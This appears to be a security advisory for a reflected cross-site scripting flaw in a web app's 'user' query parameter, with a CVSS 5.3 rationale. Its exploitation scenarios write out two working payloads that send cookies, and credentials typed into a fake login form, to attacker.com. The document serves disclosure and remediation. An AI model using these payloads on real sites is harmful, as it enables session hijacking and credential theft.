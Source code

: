 This implementation allows attackers to inject arbitrary JavaScript code through the `user` parameter, which will be executed in victims' browsers when they visit the maliciously crafted URL. Such injected scripts can steal cookies, hijack sessions, redirect users to malicious sites, or perform actions on behalf of the victim, presenting a significant security risk to users of the application.

# CVSS
**Score**: 5.3 \
**Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N \
**Severity**: Medium

The Medium severity rating (CVSS score 5.3) is based on the following factors:

- **Network Attack Vector (AV:N)**: The vulnerability is exploitable remotely through the internet as it exists in a web service accessible to users.

- **Low Attack Complexity (AC:L)**: Exploitation is straightforward and does not require specialized knowledge or complex attack conditions. An attacker simply needs to craft a URL with malicious JavaScript code in the query parameter.

- **No Privileges Required (PR:N)**: The vulnerable endpoint does not require authentication, allowing any user to exploit it.

- **User Interaction Required (UI:R)**: A successful attack depends on a victim visiting a maliciously crafted URL, which reduces the severity somewhat as it requires social engineering or other means to trick users.

- **Unchanged Scope (S:U)**: The vulnerability does not allow the attacker to affect components beyond the vulnerable service itself.

- **Low Confidentiality Impact (C:L)**: The vulnerability can lead to disclosure of cookies and session data, but is generally limited to web browser context data rather than backend system information.

- **Low Integrity Impact (I:L)**: Attackers can modify content displayed to users and potentially alter form submissions, but cannot directly modify server-side data.

- **No Availability Impact (A:N)**: The vulnerability does not affect the availability of the service.

The combination of these factors results in a Medium severity vulnerability that requires prompt remediation.

# Exploitation Scenarios
**Scenario 1: Session Cookie Theft**
An attacker crafts a malicious URL targeting the vulnerable endpoint: `http://acme-app.com/greet?user=<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`. The attacker distributes this URL via phishing emails to Acme Corp users. When a victim clicks the link, their browser renders the welcome message and executes the injected script, sending their session cookies to the attacker's server. The attacker can then use these stolen cookies to impersonate the victim and gain unauthorized access to their account.

**Scenario 2: Credential Harvesting**
An attacker creates a more sophisticated XSS payload that injects a fake login form into the page: `http://acme-app.com/greet?user=<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:999"><h2>Session Expired</h2><form onsubmit="fetch('https://attacker.com/steal',{method:'POST',body:new FormData(this)});return false"><input name="username" placeholder="Username"><input name="password" type="password" placeholder="Password"><button>Login</button></form></div>`. When a user visits this URL, they see what appears to be a login form. If they enter their credentials, the data is sent to the attacker's server while the user remains unaware of the attack.
